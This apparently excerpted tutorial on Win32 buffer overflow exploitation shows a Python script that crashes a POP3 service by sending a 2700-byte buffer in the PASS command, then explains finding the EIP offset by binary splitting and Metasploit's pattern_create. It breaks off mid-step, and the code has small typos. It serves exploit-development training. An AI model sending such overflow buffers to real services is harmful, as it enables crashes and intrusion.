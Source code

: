 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```
### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those
  4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-­‐framework/tools/patte_create.rb 2700
        ```
      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.

        ```

